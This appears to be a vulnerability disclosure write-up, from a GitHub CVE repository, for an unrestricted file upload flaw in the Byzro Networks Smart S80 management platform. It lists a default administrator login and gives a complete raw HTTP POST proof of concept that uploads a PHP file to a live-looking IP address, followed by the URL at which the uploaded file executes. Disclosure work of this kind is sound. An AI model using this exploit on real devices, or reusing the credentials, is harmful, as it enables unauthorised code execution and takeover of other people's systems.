 There is a file upload vulnerability in Byzro Networks Smart S80 management platform

Vulnerability impact
Smart S80

Vulnerability location
/useratte/userattestation.php

 Code analysis
The code enters the hidwel branch, and the uploaded files in lines 125 and 126 of the code do not have any suffix restrictions, causing arbitrary files to be uploaded.

![image](https://github.com/garboa/cve_3/assets/22628693/2855690d-1cd0-41ca-b828-bf2dae14b582)

Vulnerability recurrence

1. The login interface is as shown in the figure.
admin/20015480

![image](https://github.com/garboa/cve_3/assets/22628693/74ac80f2-56e7-4627-8fb1-cc25a166df7c)

2. Construct a POC and directly upload the 1.php file.

POC
```
POST /useratte/userattestation.php HTTP/1.1
Host: 125.67.126.126:8443
Cookie: PHPSESSID=3d84a3f37f3c61d543c5cd2236640eb4
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 593
Origin: https://125.67.126.126:8443
Referer: https://125.67.126.126:8443/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="web_img"; filename="1.php"
Content-Type: application/octet-stream

<?php echo 123;?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hidwel"

set
-----------------------------42328904123665875270630079328?
```

![image](https://github.com/garboa/cve_3/assets/22628693/a51566bf-71b7-47c7-9a1b-94a2ce63622f)

Visit /boot/web/upload/weblogo/1.php

![image](https://github.com/garboa/cve_3/assets/22628693/568dbafa-f0e3-4ded-b1a9-3dca6e1b45fd)

